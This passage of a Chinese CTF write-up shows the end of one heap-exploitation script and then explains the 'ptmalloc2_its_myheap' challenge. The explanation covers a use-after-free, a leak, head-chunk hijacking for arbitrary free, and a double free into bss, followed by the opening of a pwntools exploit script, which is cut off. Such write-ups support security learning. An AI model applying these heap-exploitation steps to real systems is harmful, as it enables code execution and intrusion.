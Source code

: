 ```python
print("base_heap:",hex(base_heap))
print("base_libc:",hex(base_libc))
for i in range(21,30):
    add(i,0x78)
edit(29,p64(0xe3b01+base_libc))
add(30,0x20)
ia()

```

## ptmalloc2_its_myheap

> 这题利用的一个`head chunk`进行记录信息 然后一个`content chunk`记录内容 而且没有对`content chunk`的size进行限制
>
> 并且最重要的是在free的时候没有对chunk指针进行清空 这样我们可以实现uaf
>
> 输出chunk内容的时候也是根据我们输入的size来进行输出的 所以可以泄露大量信息
>
> 有一个gift函数 输出了libc地址 我们可以直接劫持gift函数和hello_world字符串来实现getshell

### 劫持head chunk

> 由于信息都是通过`head chunk`进行的记录 所以我们直接劫持`head chunk`就可以实现任意free了 因为在free `head chunk`的时候会同步free `head chunk`记录的buf指针 我们劫持`head chunk`就可以任意修改buf指针完成任意free 这样我们可以轻松构造一个double free 实现任意写操作

- 触发fastbin的合并
  - 我们可以让`head chunk`进入fastbin链中 然后通过申请一个largebin chunk触发合并机制 然后让这些chunk合并进入unsortedbin 我们再申请为 `content chunk`这样我们可以对这些原本的head chunk进行劫持

- 构造double free
  - 任意free 让fastbin链中第二个chunk free来触发double free 劫持bss段数据

### 脚本

```python
from pwn import *

context(os='linux', arch='amd64', log_level='debug')
# context(os='linux', arch='amd64')
# context.terminal = ['byobu', 'sp', '-h']


# file_name = "./vuln"
url = "127.0.0.1"
port = 64814

# elf = ELF(file_name)
# p= process(file_name)
# p = gdb.debug(file_name,"b *main+34")
p = remote(url,port)

sd = lambda s : p.send(s)
sl = lambda s : p.sendline(s)
sa = lambda n,s : p.sendafter(n,s)
sla = lambda n,s : p.sendlineafter(n,s)
rc = lambda n : p.recv(n)
rl = lambda  : p.recvline()
ru = lambda s : p.recvuntil(s)
ra = lambda : p.recvall()
ia = lambda : p.interactive()
uu32 = lambda data : u32(data.ljust(4, b'\x00'))
uu64 = lambda data : u64(data.ljust(8, b'\x00'))

def add(index,size,content):
```